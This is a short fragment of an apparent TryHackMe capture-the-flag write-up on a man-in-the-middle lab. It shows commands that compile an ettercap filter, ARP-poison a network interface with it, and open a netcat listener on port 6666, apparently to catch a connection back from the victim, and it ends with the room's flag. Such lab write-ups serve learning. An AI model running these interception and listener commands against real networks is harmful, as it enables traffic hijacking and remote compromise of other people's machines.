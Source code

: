 ```bash
etterfilter whoami.ecf -o whoami.ef
sudo ettercap -T -i eth1 -M arp -F whoami.ef
```

```bash
nc -nvlp 6666
```

![](<../../.gitbook/assets/Screenshot from 2022-05-03 07-03-40.png>)

{% hint style="success" %}
`THM{wh4t_an_ev1l_M!tM_u_R}`
{% endhint %}
